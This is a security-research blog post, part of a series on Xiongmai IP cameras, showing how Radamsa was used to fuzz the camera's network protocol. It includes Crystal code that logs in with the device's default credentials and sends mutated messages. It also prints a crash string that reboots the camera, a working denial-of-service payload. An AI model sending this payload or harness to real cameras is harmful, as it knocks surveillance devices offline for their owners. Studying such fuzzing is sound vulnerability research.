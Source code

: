```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 7 - Fuzzing With Radamsa"
date:   2019-09-04 06:00:00 +0100
tags: fuzzing, hacking, ipc
permalink: /xiongmai/7
---
```

I'd never heard of this tool, until I happened to stumble upon it in a [LiveOverflow](https://www.youtube.com/watch?v=kMu1J8QdxE8) video. The tool is, very neat to say the least. It takes an input "sample" data, and mutates it in various ways to cause potential bad behavior in an application.

From the previous behavioral fuzzing we did, we know what commands are available by default, so we should fuzz those specific items to see if we can get them to misbehave.

<pre><code class="crystal">
File.open("./rsrc/op_monitor.txt", "w+") do |file|
  file.print Command::OPMonitor.new(session_id: 0xabcdef00_u32).to_s
end

File.open("./logs/radamsa/op_monitor.log", "w+") do |file|
  puts "Testing connection"
  socket = MagicSocket.new("192.168.11.109", 34567)
  socket.login "default", Dahua.digest("tluafed")
  xmm = Command::OPMonitor.new
  socket.send_message xmm
  puts "SENT: #{xmm.message}"
  reply = socket.receive_message
  puts "GOT: #{reply.message}"

  1000.times do |x|
    begin
      socket = MagicSocket.new("192.168.11.109", 34567)
      socket.login "default", Dahua.digest("tluafed")
      message = `radamsa ./rsrc/op_monitor.txt`
      file.puts "SENT: #{message.inspect}"
      socket.send message
      reply = socket.receive_message
      file.puts "GOT: #{reply.message.inspect}"
    rescue e : MagicError::SocketException
      puts "SOCKET DOWN! #{e.inspect}"
      raise e
    rescue e : MagicError::Exception
      file.puts "ERROR: #{e.inspect}"
      puts "ERROR: #{e.inspect}"
    rescue e
      file.puts "BAD ERROR: #{e.inspect}"
      puts "BAD ERROR: #{e.inspect}"
    end
  end
end
</code></pre>

I make a message for OPMonitor, and output it to a file, then send that file through Radamsa, and send it's fuzzing data to the camera. Within about 100 or so tries, it ended up finding a way to disrupt the client and the camera server for about 120 seconds while the camera reboots. This string takes the camera down via ping, connection, etc. This means the camera itself actually get rebooted.

<pre><code class="crystal">
crash_string = "\xFF\u0001\u0000\u0000\u0000\xEF\xCD\xAB\u0000\u0000\u0000\u0000\u0000\u0000\x85\u0005\xA0\u0000\u0000\xE1\u0000{\"Name\":\"OPMonitor\",\"OPMonitor\",\"OPMonitor\":{\"Action\":\"Claim\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Stre amT\u000E\xFE\xFFype\":\"Main\",\"TransMode\":\"TCP\"}},\"Sess󠁎ionID\":\"4294967296xAbcdef256\"}"
socket = MagicSocket.new("192.168.11.109", 34567)
socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

Already Radamsa has helped us find a new and exciting vulnerability.

## Final notes on fuzzing

We can say for certain that there are some oddities and inconsistencies about how this protocol works, which tends to be good for the red team. The stranger the protocol the more likely someone made a mistake somewhere along the way. There seems to be a lot of potential for that since the protocol acts so erratically. 

[Part 8 &gt;&gt;](/xiongmai/8)